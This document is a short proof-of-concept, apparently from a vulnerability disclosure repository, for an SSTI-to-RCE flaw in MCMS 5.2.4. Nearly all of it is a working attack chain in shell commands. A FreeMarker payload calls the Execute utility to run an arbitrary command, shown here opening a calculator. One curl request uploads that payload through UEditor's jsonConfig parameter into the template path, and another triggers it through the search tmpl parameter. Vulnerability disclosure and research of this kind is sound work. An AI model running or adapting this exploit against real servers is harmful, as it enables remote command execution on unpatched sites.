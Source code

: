 ### POC (测试版本: 5.2.4)

```shell
echo "<#assign value="freemarker.template.utility.Execute"?new()>${value("open -a calculator")}" > /path/to/your/1.txt & 
curl --location 'http://ip:port/static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig=%7BfilePathFormat%3A%27%2Ftemplate%2F1%2Fdefault%2Fevil%27%2CvideoUrlPrefix%3A%27%27%2CfileManagerListPath%3A%27%27%2CimageMaxSize%3A204800000%2CvideoMaxSize%3A204800000%2CfileMaxSize%3A204800000%2CfileUrlPrefix%3A%27%27%2CimageUrlPrefix%3A%27%27%2CimagePathFormat%3A%27%2Fupload%2F%24%7BappId%7D%2Fcms%2Fcontent%2Feditor%2F%257Btime%257D%27%2CvideoPathFormat%3A%27%2Fupload%2F%24%7BappId%7D%2Fcms%2Fcontent%2Feditor%2F%257Btime%257D%27%7D&action=uploadfile' \
--form 'upload=@"/path/to/your/1.txt"' &
curl --location 'http://ip:port/mcms/search?tmpl=evil.txt'
```

具体可参考：[MCMS SSTI To RCE](https://racerz.notion.site/MCMS-SSTI-To-RCE-ea6feec00405494c8a4406165eb557c1?pvs=4)

源码：https://gitee.com/mingSoft/MCMS/tree/5.2.4

